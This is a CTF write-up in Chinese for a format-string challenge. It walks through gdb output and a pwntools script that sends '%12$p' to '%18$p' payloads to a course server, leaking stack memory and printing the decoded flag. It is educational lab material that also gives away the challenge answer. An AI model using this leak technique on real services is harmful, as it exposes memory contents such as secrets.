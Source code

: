 # Level 2 - fmtstr

[題目]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/20211115/image/fmtstr_topic.png)

[解題]

首先，我們可以看到題目給我們兩個檔案 **fmtstr** 和 **fmtstr.c**，打開 fmtstr.c 進行原始碼分析。

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/20211115/image/fmtstr_c.png)

我們可以看到程式碼中有 **MyFirstCTF{??????????????????????????????????????????????}**，即是我們想要的 flag。接著進行程式行為分析，執行 fmtstr 檔案。
> ./fmtstr
```
input:1
output:1

input:%p
output:0x7f46f939c9f0          ==> 表示有 format string 漏洞 
```
下一步，開始進行逆向分析，使用 gdb。
> gdb fmtstr

> b main

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/20211115/image/fmtstr_gdb.png)

> r

Output:
```
────────────────────────────────── Registers ───────────────────────────────────
RAX: 0x4006c6 (<main>:	push   rbp)
RBX: 0x0 
RCX: 0x7ffff7faa718 --> 0x7ffff7fabd80 --> 0x0 
RDX: 0x7fffffffe278 --> 0x7fffffffe56a ("SHELL=/bin/bash")
RSI: 0x7fffffffe268 --> 0x7fffffffe54d ("/root/NTHU/CTF/fmtstr/fmtstr")
RDI: 0x1 
RBP: 0x7fffffffe180 --> 0x4007c0 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffe180 --> 0x4007c0 (<__libc_csu_init>:	push   r15)
RIP: 0x4006ca (<main+4>:	sub    rsp,0x70)
R8 : 0x7ffff7fabd80 --> 0x0 
R9 : 0x7ffff7fabd80 --> 0x0 
R10: 0xfffffffffffff427 
R11: 0x7ffff7e12fb0 (<__libc_start_main>:	push   r14)
R12: 0x4005d0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe260 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
───────────────────────────────────── Code ─────────────────────────────────────
   0x4006c1 <frame_dummy+33>:	jmp    0x400640 <register_tm_clones>
   0x4006c6 <main>:	push   rbp
   0x4006c7 <main+1>:	mov    rbp,rsp
=> 0x4006ca <main+4>:	sub    rsp,0x70
   0x4006ce <main+8>:	mov    rax,QWORD PTR fs:0x28
   0x4006d7 <main+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x4006db <main+21>:	xor    eax,eax
   0x4006dd <main+23>:	
    mov    rax,QWORD PTR [rip+0x20096c]        # 0x601050 <stdout@@GLIBC_2.2.5>
──────────────────────────────────── Stack ─────────────────────────────────────
0000| 0x7fffffffe180 --> 0x4007c0 (<__libc_csu_init>:	push   r15)
0008| 0x7fffffffe188 --> 0x7ffff7e1309b (<__libc_start_main+235>:	mov    edi,eax)
0016| 0x7fffffffe190 --> 0x0 
0024| 0x7fffffffe198 --> 0x7fffffffe268 --> 0x7fffffffe54d ("/root/NTHU/CTF/fmtstr/fmtstr")
0032| 0x7fffffffe1a0 --> 0x100000000 
0040| 0x7fffffffe1a8 --> 0x4006c6 (<main>:	push   rbp)
0048| 0x7fffffffe1b0 --> 0x0 
0056| 0x7fffffffe1b8 --> 0x501688d5d77e22ae 
────────────────────────────────────────────────────────────────────────────────
Legend: code, data, rodata, heap, value

Breakpoint 1, 0x00000000004006ca in main ()

```
> ni   ==>一直到scanf
```
───────────────────────────────────── Code ─────────────────────────────────────
   0x40077c <main+182>:	mov    edi,0x400844
   0x400781 <main+187>:	mov    eax,0x0
   0x400786 <main+192>:	call   0x4005b0 <__isoc99_scanf@plt>
=> 0x40078b <main+197>:	lea    rax,[rbp-0x70]
   0x40078f <main+201>:	mov    rdi,rax
   0x400792 <main+204>:	mov    eax,0x0
   0x400797 <main+209>:	call   0x400580 <printf@plt>
   0x40079c <main+214>:	mov    eax,0x0
[rbp-0x70] : 0x7fffffffe110 --> 0xff0000000071 
──────────────────────────────────── Stack ─────────────────────────────────────
0000| 0x7fffffffe110 --> 0xff0000000071 
0008| 0x7fffffffe118 --> 0x0 
0016| 0x7fffffffe120 --> 0x0 
0024| 0x7fffffffe128 --> 0xff00000000 
0032| 0x7fffffffe130 --> 0x0 
0040| 0x7fffffffe138 --> 0x0 
0048| 0x7fffffffe140 ("FLAG{", '?' <repeats 46 times>, "}")
0056| 0x7fffffffe148 ('?' <repeats 43 times>, "}")
────────────────────────────────────────────────────────────────────────────────
Legend: code, data, rodata, heap, value
0x000000000040078b in main ()
```

在 gdb 裡，為了方便除錯，它將程式碼以副程式為單位分成一個個的區塊 (frame)。比如說，main() 會被視為一個 frame，而其他 function 則會被視為另一個 frame。因而在利用 gdb 除錯時，可以直接執行某個 frame、跳至上一個或下一個 frame、直接執行至該 frame 結束... 等等，而加快在使用 gdb 來 debug 的速度並降低 debug 的困難度。

在 frame 與 frame 之間，正在執行的區塊就是 frame 0。呼叫該區塊的就是 frame 1；而再上上一層的就叫 frame 2，以此類推。

在 gdb 進入另一個 frame 之前，它會將該 frame 的一些變數值之類的儲存至堆疊 (stack) 裡，等到從 frame 回來後再從這些 stack 裡把這些變數值取回來。

> stack 14

Output:
```
0000| 0x7fffffffe110 --> 0xff0000000071 
0008| 0x7fffffffe118 --> 0x0 
0016| 0x7fffffffe120 --> 0x0 
0024| 0x7fffffffe128 --> 0xff00000000 
0032| 0x7fffffffe130 --> 0x0 
0040| 0x7fffffffe138 --> 0x0 
0048| 0x7fffffffe140 ("FLAG{", '?' <repeats 46 times>, "}")
0056| 0x7fffffffe148 ('?' <repeats 43 times>, "}")
0064| 0x7fffffffe150 ('?' <repeats 35 times>, "}")
0072| 0x7fffffffe158 ('?' <repeats 27 times>, "}")
0080| 0x7fffffffe160 ('?' <repeats 19 times>, "}")
0088| 0x7fffffffe168 ('?' <repeats 11 times>, "}")
0096| 0x7fffffffe170 --> 0x7d3f3f3f ('???}')
0104| 0x7fffffffe178 --> 0x4e5fab838babda00 
```

可以看到 %12$p 到 %18$p 是我們要解開的位置，開始撰寫 exploit code。
> gedit exploit.py
```
from pwn import *

ip = "120.114.62.211"
port = 6127

r = remote(ip, port)

payload = ""

for i in range(12, 19):
    payload += "%{}$p".format(i)


r.sendline(payload)
out = r.recv()

print(type(out))
print(out)
```
> python3 exploit.py
```
[+] Opening connection to 120.114.62.211 on port 6127: Done
exploit.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(payload)
<class 'bytes'>
b'0x437473726946794d0x346d7230667b46540x676e317254735f740x61336c5f6e34635f0x5479723376335f4b0x5f6e305f476e31680x7d54735f334874'
MyFirstCTF{f0rm4t_sTr1ng_c4n_l3aK_3v3ryTh1nG_0n_tH3_sT}
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
我們可以看到 **MyFirstCTF{f0rm4t_sTr1ng_c4n_l3aK_3v3ryTh1nG_0n_tH3_sT}**，即找到 flag 了!!

[END]
